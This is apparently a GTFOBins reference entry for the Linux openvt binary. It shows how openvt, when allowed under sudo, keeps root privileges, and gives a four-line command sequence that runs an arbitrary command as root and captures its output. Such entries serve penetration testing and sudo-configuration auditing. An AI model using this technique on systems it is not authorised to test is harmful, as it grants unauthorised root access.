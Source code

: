 # GTFOBin: openvt

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

The command execution is blind (displayed on the virtual console), but it is possible to save the output on a temporary file.

```
COMMAND=id
TF=$(mktemp -u)
sudo openvt -- sh -c "$COMMAND >$TF 2>&1"
cat $TF
```